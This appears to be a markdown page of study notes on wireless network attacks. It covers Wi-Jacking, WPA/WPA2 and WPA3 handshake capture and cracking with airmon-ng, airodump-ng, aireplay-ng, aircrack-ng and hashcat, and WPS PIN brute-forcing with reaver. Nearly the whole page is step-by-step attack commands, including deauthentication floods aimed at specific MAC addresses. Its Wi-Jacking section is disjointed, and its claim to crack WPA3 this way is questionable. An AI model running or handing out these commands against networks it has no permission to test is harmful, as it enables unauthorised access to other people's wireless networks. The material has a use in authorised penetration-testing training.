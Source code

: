 ### Wi-Jacking Attack
Attackers use a Wi-Jacking attack for gaining access to an enormous number of wireless networks. In this attack, the Wi-Fi information of the nearest victims can be retrieved without using any cracking mechanisms. This attack can be used when credentials are saved in the victim’s browser, when the victim accesses the same website multiple times, and when the router uses an unencrypted HTTP connection to access the router configuration interface in the browser. Attackers can take advantage of these vulnerabilities to crack WPA/WPA2 networks without going through a single handshake process. The following conditions must be met to perform a Wi-Jacking attack.
- command 
	- `` aireplay-ng -0 11 -a 22:7F:AC:6D:E6:8B -c EE:AB:46:A7:CF:18 wlx00e02d886189``
### Cracking WPA/WPA2 Using Aircrack-ng
-  make interface into monitor mode 
	- command 
		- `` airmon-ng start <i>
-  Run airodump-ng command to get a list of detected access points and connected clients. 
	- command 
		-  ``airodump-ng <i>
-  Open a new terminal and run the following airodump-ng command to capture packets from the targeted access point as the root user and leave the terminal.
	- command 
		- ``airodump-ng --bssid <BSSID> -c 1 -w <ESSID> <i> ``
-  Open a new terminal and run the following aireplay-ng command multiple times to send a large number of deauthentication packets to the connected device. 
	- command 
		-  ``aireplay-ng -0 11 -a <Access point MAC address/BSSID> -c <MAC address of connected device> <i>``
-  In another net terminal, run the following aircrack-ng command as root user with a password.txt file against the captured .cap file.
	- command 
		- ``aircrack-ng -a2 <Access point MAC address/BSSID> -w password.txt <captured file name>.cap``


### Cracking WPA3 Using Aircrack-ng and hashcat
 - Step1: Set the wireless interface to monitor mode by running the following command: 
	 - ``airmon-ng start <i>``
- Step 2: Run the following airodump-ng command as the root user on another terminal to capture the handshake: airodump-ng wlan0mon Alternatively, focus on a target network with the command:
	- ``airodump-ng --bssid <BSSID> --channel <CH> --write capture wlan0mon``
-  Step 3: De-authenticate the client to capture the handshake by running the following 
	- ``aireplay-ng command: aireplay-ng --deauth 10 -a <BSSID> -c <Client_MAC> wlan0mon``.
-  Step 4: Convert the captured .cap file to .hccapx format using hcxtools by running: 
	- ``hcxpcapngtool -o capture.hccapx <capture>.cap``
- Step 5: Finally, crack the handshake using hashcat with a wordlist file:
	- ``hashcat -m 22000 capture.hccapx </path/to/wordlist.txt>``


### Cracking WPS Using Reaver
-   Set up a wireless interface in the monitoring mode
	- ``airmon-ng start wlan0 ``
-  Use the Wash utility to detect WPS-enabled devices using the following command: 
	- ``wash -i <i>``
-   If WPS-enabled devices could not be detected using the Wash utility, use Airodump-ng to detect devices using WPS through the following command:
	- ``airodump-ng <i>``
 - After identifying the BSSID of the target device, start cracking the WPS PIN using Reaver through the following command: 
	-  ``reaver -i < Name of the monitor-mode interface to use> -b < BSSID of the target AP> -vv <Display non-critical warnings>``
	 - example 
		 - ``reaver –i wlan0mon -b B4:75:0E:89:00:60 -vv ``
